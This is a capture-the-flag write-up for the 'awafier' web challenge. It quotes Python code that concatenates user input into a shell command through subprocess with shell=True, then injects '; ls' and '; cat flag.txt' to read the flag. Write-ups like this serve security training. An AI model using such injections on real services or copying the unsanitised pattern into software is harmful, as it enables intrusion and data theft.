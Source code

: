 # awafier
Point count: 100pts

Difficulty: easy

Provided files: awafier.zip

Url: https://awafy-me.jellyc.tf/

Description:
> Hacked this together for Jelly's mutually beneficial partnership application
#

There is a text box, so it should be sanitized, right?

```
if user_input:
        try:
            result = subprocess.check_output("python3 ./awafier.py " + user_input, shell=True)
            result = result.decode()
        except:
            result = "Error processing input"
    else:
        result = ""
```

The text box is not sanitized, and runs `python3 ./awafier.py {user_input}` in a shell. We can try sending `; ls`, and we get

```
Dockerfile
awafier.py
awafier_maps.py
flag.txt
main.py
requirements.txt
wrapper.py
```

which confirms the exploit. We can send `; cat flag.txt` to get the flag.

Flag: `jellyCTF{c3rt1fied_aw4t15tic}`
